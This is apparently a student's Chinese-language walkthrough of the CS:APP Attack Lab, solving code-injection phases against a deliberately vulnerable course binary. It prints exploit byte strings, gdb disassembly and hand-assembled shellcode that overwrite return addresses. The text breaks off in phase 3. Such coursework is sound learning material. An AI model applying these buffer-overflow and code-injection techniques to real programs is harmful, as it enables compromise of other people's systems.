

<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=6 orderedList=false} -->

<!-- code_chunk_output -->

- [简介](#简介)
- [ctarget](#ctarget)
  - [phase1](#phase1)
  - [phase2](#phase2)
  - [phase3](#phase3)

<!-- /code_chunk_output -->


## 简介
----

1. csapp attack lab
   attack lab包含2个随机生成的可执行文件，都包含缓冲区溢出漏洞。ctarget进行3次code injection（代码注入攻击），rtarget进行2次return-oriented programming攻击。详见`WRITEUP`。

2. hex2raw使用方法
   - 方法一
      ```bash
      cat exploit.txt | ./hex2raw | ./ctarget
      ```
   - 方法二
      ```bash
      ./hex2raw < exploit.txt > exploit-raw.txt
      ./ctarget < exploit-raw.txt # 或./ctarget -i exploit-raw.txt
      ```
   - 在gdb里使用：
   ```
   (gdb) run -q < exploit-raw.txt
   ```


## ctarget
----

### phase1

1. 任务
   在`getbuf`返回后跳转执行`touch1`函数，即修改保存的返回地址。使用`objdump -d`反汇编，查看`touch1`地址为`0x4017c0`。

2. 在`getbuf`函数打断点：
   ```c
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x00000000004017a8 <+0>:	sub    $0x28,%rsp
      0x00000000004017ac <+4>:	mov    %rsp,%rdi
   => 0x00000000004017af <+7>:	callq  0x401a40 <Gets>
      0x00000000004017b4 <+12>:	mov    $0x1,%eax
      0x00000000004017b9 <+17>:	add    $0x28,%rsp
      0x00000000004017bd <+21>:	retq   
   End of assembler dump.
   ```
   在调用`Gets`之前，在栈上开辟了大小为0x28（40）的空间，推测`BUFFER_SIZE=40Byte`。用随意40个字节填满buffer，然后用`touch1`的地址覆盖返回地址。

   在`ctarge.l1`中写入：
   ```
   00 01 02 03 04 05 06 07 08 09
   10 11 12 13 14 15 16 17 18 19
   20 21 22 23 24 25 26 27 28 29
   30 31 32 33 34 35 36 37 38 39
   c0 17 40 00 00 00 00 00 /* ret address */
   ```

   注意数据在栈上存放的位置，我的机器是大端模式
   ```c
   (gdb) print /x *(long*)($rsp-0x28)
   $38 = 0x706050403020100
   ```
   

### phase2

1. 任务
   跳转执行`touch2`函数，并传入正确的`cookie`。

2. 查看`touch2`函数
   ```c
   (gdb) disas
   Dump of assembler code for function touch2:
      0x00000000004017ec <+0>:	sub    $0x8,%rsp
      0x00000000004017f0 <+4>:	mov    %edi,%edx
      0x00000000004017f2 <+6>:	movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
      0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
      0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
   => 0x0000000000401804 <+24>:	mov    $0x4030e8,%esi
      0x0000000000401809 <+29>:	mov    $0x1,%edi
      0x000000000040180e <+34>:	mov    $0x0,%eax
      0x0000000000401813 <+39>:	callq  0x400df0 <__printf_chk@plt>
      0x0000000000401818 <+44>:	mov    $0x2,%edi
      0x000000000040181d <+49>:	callq  0x401c8d <validate>
      0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
      0x0000000000401824 <+56>:	mov    $0x403110,%esi
      0x0000000000401829 <+61>:	mov    $0x1,%edi
      0x000000000040182e <+66>:	mov    $0x0,%eax
      0x0000000000401833 <+71>:	callq  0x400df0 <__printf_chk@plt>
      0x0000000000401838 <+76>:	mov    $0x2,%edi
      0x000000000040183d <+81>:	callq  0x401d4f <fail>
      0x0000000000401842 <+86>:	mov    $0x0,%edi
      0x0000000000401847 <+91>:	callq  0x400e40 <exit@plt>
   End of assembler dump.
   ```
   显然，我们只需要跳转到地址`0x401804`处。

   在`ctarge.l2`中写入：
   ```
   00 01 02 03 04 05 06 07 08 09
   10 11 12 13 14 15 16 17 18 19
   20 21 22 23 24 25 26 27 28 29
   30 31 32 33 34 35 36 37 38 39
   04 18 40 00 00 00 00 00 00 00
   ```

   但是，出现报错：
   ```c
   (gdb) run -q < ctarget-raw.l2
   The program being debugged has been started already.
   Start it from the beginning? (y or n) y
   Starting program: /home/enterprise/github/csapp_lab/attacklab/ctarget -q < ctarget-raw.l2
   Cookie: 0x59b997fa

   Breakpoint 5, printf (__fmt=0x4030e8 "Touch2!: You called touch2(0x%.8x)\n") at /usr/include/x86_64-linux-gnu/bits/stdio2.h:105
   warning: Source file is more recent than executable.
   105	printf (const char *__restrict __fmt, ...)
   ```
   原因是printf函数中的格式是`0x%.8x`，传入的参数不符合要求，并且`validate`函数应该用于检查是否合法。所以不能直接跳转来欺骗，先修改返回地址，跳转到我们的注入代码中，修改`%edi`寄存器的值并跳转到`touch2`（根据`WRITEUP`，建议使用ret跳转，所以先`push`地址再`ret`）。`cookie`存放在地址`0x6044e4`处。

3. 注入攻击代码
   参考`WRITEUP`,手写汇编代码，然后编译并反汇编得到机器码。

   汇编文件`example.s`
   ```c
   mov $0x6044e4,%edi
   mov (%edi),%edi
   push $0x4017ec
   ret
   ```
   再反汇编得到机器码
   ```c
   0:	bf e4 44 60 00       	mov    $0x6044e4,%edi
   5:	67 8b 3f             	mov    (%edi),%edi
   8:	68 ec 17 40 00       	pushq  $0x4017ec
   d:	c3                   	retq   
   ```

   最后得到`ctarget.l2`
   ```c
   00 01 02 03 04 05 06 07 08 09
   10 11 12 13 14 15 16 17 18 19
   20 21 22 23 24 25 26 27 28 29
   30 31 32 33 34 35 36 37 38 39
   a8 dc 61 55 00 00 00 00 /* ret address */
   bf e4 44 60 00  /* mov $0x6044e4,%edi */
   67 8b 3f        /* mov (%edi),%edi */
   68 ec 17 40 00  /* push $0x4017ec */
   c3              /* ret */
   ```
   
   我的注入代码选择放在返回地址后面。放在`getbuf`的栈帧里可能更安全，否则可能覆盖一些数据导致程序异常退出。
   

### phase3
1. 任务
   - 漏洞字符串中包含`cookie`的字符串表示形式，包含8个16进制数（没有0x开头）。
   - 字符串以值为0的字节结尾。
   - 设置`%rdi`寄存器的值为这个字符串。
   - 当调用`hexmatch`和`strncmp`时，他们把数据push入栈，可能会覆盖`getbuf`的栈帧，所以要注意`cookie string`的存放位置。

2. 在进入`hexmatch`之前打断点
   ```c
   (gdb) disas
   Dump of assembler code for function touch3:
      0x00000000004018fa <+0>:	push   %rbx
      0x00000000004018fb <+1>:	mov    %rdi,%rbx  ;%rbx=cookie string
      0x00000000004018fe <+4>:	movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
      0x0000000000401908 <+14>:	mov    %rdi,%rsi  ;%rsi=cookie string
      0x000000000040190b <+17>:	mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie> ;%edi=cookie
   => 0x0000000000401911 <+23>:	callq  0x40184c <hexmatch>
   ```
   查看`rsp`地址为`0x5561dca0`，cookie仍然存放在地址`0x6044e4`处，值为0x59b997fa，对应的16进制为`35 39 62 39 39 37 66 61 00`。`rbx`和`rsi`保存cookie string，`edi`保存cookie。

3. 进入`hexmatch`查看
   跳转后`rsp`=0x5561dc98，返回地址入栈。
   ```c
   (gdb) disas
   Dump of assembler code for function hexmatch:
      0x000000000040184c <+0>:	push   %r12
      0x000000000040184e <+2>:	push   %rbp
      0x000000000040184f <+3>:	push   %rbx ;%rsp-24=0x5561dc80，cookie sring入栈
      0x0000000000401850 <+4>:	add    $0xffffffffffffff80,%rsp  ;%rsp-128=0x5561dc00
      0x0000000000401854 <+8>:	mov    %edi,%r12d ；%r12d=cookie
      0x0000000000401857 <+11>:	mov    %rsi,%rbp
      0x000000000040185a <+14>:	mov    %fs:0x28,%rax
      0x0000000000401863 <+23>:	mov    %rax,0x78(%rsp)
      0x0000000000401868 <+28>:	xor    %eax,%eax
      0x000000000040186a <+30>:	callq  0x400db0 <random@plt>
   ```
   `ecx`寄存器保存format，`rdi`保存cookie，关键是找到char *s